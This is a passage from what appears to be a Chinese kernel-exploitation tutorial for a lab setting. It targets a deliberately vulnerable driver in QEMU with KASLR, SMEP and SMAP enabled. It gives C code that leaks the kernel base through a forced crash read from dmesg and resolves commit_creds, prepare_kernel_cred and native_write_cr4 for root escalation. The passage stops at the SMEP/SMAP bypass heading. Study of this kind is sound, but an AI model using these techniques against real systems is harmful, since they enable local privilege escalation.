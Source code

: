 ```
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-26-034530.png)

成功控制执行流之后就是如何提权的问题了，接下来我们修改`QEMU`的启动脚本，进一步加大利用难度

```
#!/bin/sh
qemu-system-x86_64 
-m 128M -smp 4,cores=1,threads=1  
-kernel bzImage 
-initrd  core.cpio 
-append "root=/dev/ram rw loglevel=10 console=ttyS0 oops=panic panic=1 quiet kaslr" 
-cpu qemu64,+smep,+smap 
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 
-nographic
```

**也就是开启了`KASLR`、`SMEP`、`SMAP`保护！**

#### 利用`Kernel Crash`泄露内核加载基址

可以发现，如果内核发生`crash`，会提示这样的信息`[&lt;ffffffffc011b47d&gt;] ? do_ioctl+0x34d/0x4c0 [vuln_driver]`，我们可以据此计算出内核加载基址。

**⚠：若使用此方法来绕过`kaslr`，我们必须保证触发`crash`时内核不会被重启，这要求我们的QEMU语句中不能存在`oops=panic panic=1`语句，这一句的意义是，将`oops`类型的错误视为`panic`错误进行处理，对于`panic`错误，经过1秒重启内核。**

```
// 构造 page_fault 泄露kernel地址。从dmesg读取后写到/tmp/infoleak，再读出来
pid_t pid=fork();
if (pid==0)`{`
    do_page_fault();
    exit(0);
`}`
int status;
wait(&amp;status);
//sleep(10);
printf("[+] Begin to leak address by dmesg![+]n");
size_t kernel_base = get_info_leak()-sys_ioctl_offset;
printf("[+] Kernel base addr : %p [+] n", kernel_base);

native_write_cr4_addr+=kernel_base;
prepare_kernel_cred_addr+=kernel_base;
commit_creds_addr+=kernel_base;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-26-121237.png)

#### 利用`native_write_cr4`绕过`SMEP`、`SMAP`
